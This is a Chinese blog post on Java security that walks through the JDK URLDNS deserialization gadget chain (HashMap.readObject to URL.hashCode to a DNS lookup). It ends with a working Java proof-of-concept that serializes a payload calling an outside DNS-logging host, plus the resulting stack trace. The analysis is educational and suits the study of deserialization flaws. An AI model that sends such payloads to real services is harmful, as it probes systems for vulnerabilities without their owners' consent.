










---
title: "Java反序列化URLDNS利用链"
date: 2025-06-15T15:17:52+08:00
summary: "Java反序列化URLDNS利用链"
url: "/posts/Java反序列化URLDNS利用链/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

其实这条链子是很简单的，可能压根不需要额外写文章，但因为自己最近相对沉迷于审链子审代码，所以还是决定写一篇文章去看看

## 0x01URLDNS利用链简介

URLDNS是比较简单的一个链，比较适用于漏洞验证， 且并不依赖于第三方的类，而是JDK中的内置的类和方法，所以不受jdk版本的限制。适用于目标没有回显的情况。

## 0x02源码分析

jdk版本：8u56

还是和之前一样，先从出口进行寻找

我们知道readObject是java反序列化的关键函数，URLDNS链的触发方式就是使用readObject函数，所以使用搜索readObject找到了HashMap。

### HashMap#readObject



可以看到这里用到了一个hash函数，key就是参数，我们跟进一下这个方法

### HashMap#hash



这里会调用一个hashCode方法，并且是key属性的hashCode方法，那我们如果key是一个对象的话，就可以利用到对象的hashCode方法，但是这个key是否可控呢？

返回到前面的readObject方法可以看到是在putVal函数中进行hash的调用，并且这个函数是在put方法中进行调用的



然后我们看一下关于hashCode的用法

### URL#hashCode

看到URL类中有hashCode方法，并且方法中调用了hashCode方法



接入了序列化接口，URL类可以被序列化操作



在307行可以看到此时URL的hashCode默认为-1，然后我们看看hashCode方法

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

这里的话会对hashCOde的值进行一个检查，如果值为-1则会调用handler的hashCode方法，所以只要不更改hashCode的值就会调用该方法进行赋值操作，我们跟进一下handler



有一个抽象类URLStreamHandler，继续跟进找到里面的hashCode方法

### URLStreamHandler#hashCode

```java
    protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

这里出现了很多的方法，我们挨个分析一下

- getProtocol()方法



是用来从url中获取协议的方法

- getHostAddress()方法



这里的话就是根据主机名获取其ip地址，其实就是一次DNS查询

然后我们看看URL的构造函数



是公共属性的，并且我们可以传入一个主机名或ip地址

## 0x03EXP编写

经过上面的分析，我们基本上可以知道链子的结构了，就是通过调用URL的hashCode方法，进而调用URLStreamHandler的hashCode方法，从而实现DNS查询，所以只需要我们令hashCOde的值为-1就可以让后半段链子实现，然后我们来看前半段

为了调用到URL中的hashCode方法，我们需要借助到hashMap类的readObject方法，因为在这个方法里面对key的hashCode进行了计算，如果key重写了hashCode方法，那么计算逻辑就是使用key的hashCode()方法，所以我们可以将URL对象作为key传入hashMap中，但是要想最终调用hashCode()方法，就必须让URL的hashCode的值为-1，因此我们可以利用反射在运行状态中操作URL的hashCode，从而实现DNS查询的目的。

```java
HashMap.readObject()
 	HashMap.putVal()
  		HashMap.hash()
   			URL.hashCode()
```

然后我们写个exp测试一下

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
    public static void main(String[] args) throws Exception{
        //构造函数中可以传入一个ip地址
        URL url = new URL("viyjtklaju.zaza.eu.org");
        Class c = url.getClass();
        Field hashCode = c.getDeclaredField("hashCode");
        //受保护类型，需要设置权限
        hashCode.setAccessible(true);
        //将URL的hashCode设置为不是-1，就不会在put的时候调用hashCode访问dns了
        hashCode.set(url,1);
        HashMap<URL, Integer> map = new HashMap<>();
        map.put(url, 1);
        //将URL的hashCode设置为-1，是为了在反序列化的时候调用URL的hashCode访问dns
        hashCode.set(url,-1);
        serialize(map);
        unserialize("URLDNSpoc.txt");
    }

    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("URLDNSpoc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois  = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
        ois.close();
    }
}
```



函数调用栈

```java
getByName:1076, InetAddress (java.net)
getHostAddress:436, URLStreamHandler (java.net)
hashCode:353, URLStreamHandler (java.net)
hashCode:878, URL (java.net)
hash:338, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:43, URLDNS (SerializeChains.URLDNSChains)
main:24, URLDNS (SerializeChains.URLDNSChains)
```


## 0x04总结

这个链子其实并不能带来实质性的攻击，但是可以在一些没有回显的漏洞的时候利用该链去证明漏洞是否存在，或者是否出网
